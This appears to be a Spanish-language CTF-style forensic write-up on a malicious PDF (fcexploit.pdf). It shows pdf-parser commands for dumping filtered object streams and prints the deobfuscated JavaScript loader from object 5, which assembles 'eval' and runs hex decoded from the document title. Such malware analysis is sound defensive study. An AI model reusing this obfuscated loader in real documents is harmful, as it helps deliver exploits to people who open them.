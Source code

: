 1. **Objeto 4 (`4 0 obj`)**:

   * Es de tipo `/Action`.
   * Tiene `/S /JavaScript`, lo que indica que esta acción ejecuta JavaScript.
   * Apunta con `/JS 5 0 R` al **objeto 5**, que es donde reside el flujo (stream) con el código real.

2. **Objeto 5 (`5 0 obj`)**:

   * Es el “object stream” que **contiene el JavaScript malicioso**.
   * Tiene una propiedad `/Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]`, es decir, cuatro filtros encadenados que comprimen y codifican los datos.
   * La herramienta `pdf-parser` mostró un error de decodificación parcial porque no aplicó en secuencia todos esos filtros; para extraer el código hay que deshacer la lista completa de filtros en orden inverso.

> **El objeto número 5** (es decir, `5 0 obj`) es el flujo que almacena el JavaScript malicioso.

-----

<h3 style="color: #0d6efd;">Q8. Analyzing the PDF file. What 'object-streams' contain the JS code responsible for executing the shellcodes? The JS code is divided into two streams. Format: two numbers separated with ','. Put the numbers in ascending order </h3>

Para esto volcamos los objetos que contienen filtros, que en este contexto podríamos sospechar que son maliciosos. Usamos python2 ya que python3 falla al descomprimir ASCII85. 

```bash 
python2 /usr/local/bin/pdf-parser.py --raw -o 7 -f fcexploit.pdf -d obj7
python2 /usr/local/bin/pdf-parser.py --raw -o 9 -f fcexploit.pdf -d obj9
python2 /usr/local/bin/pdf-parser.py --raw -o 10 -f fcexploit.pdf -d obj10
```

El objeto 7 parece ser una cadena larga de hexadecimal, el 9 es una cadena larga de "X_17844743X", y el 10 una cadena con este formato "U_155bf62c9a"

Ahora fíjemonos en el 5 que sabemos que contiene el código Javascript: `python2 /usr/local/bin/pdf-parser.py --raw -o 5 -f fcexploit.pdf -d obj5`

El contenido del `obj5` lo pasamos por cyberchef con la fórmula "Javascript Beauty" y tenemos lo siguiente: 

```javascript
var SSS = null;
var SS = 'ev';
var $S = '';
$5 = 'in';
app.doc.syncAnnotScan();
S$ = 'ti';
if (app.plugIns.length != 0) {
	var $$ = 0;
	S$ += 'tl';
	$5 += 'fo';
	____SSS = app.doc.getAnnots({ nPage: 0 });
	S$ += 'e';
	$S = this.info.title;
}
var S5 = '';
if (app.plugIns.length > 3) {
	SS += 'a';
	var arr = $S.split(/U_155bf62c9aU_7917ab39/);
	for (var $ = 1; $ < arr.length; $++) {
		S5 += String.fromCharCode('0x' + arr[$]);
	}
	SS += 'l';
}
if (app.plugIns.length >= 2) {
	app[SS](S5);
}
```

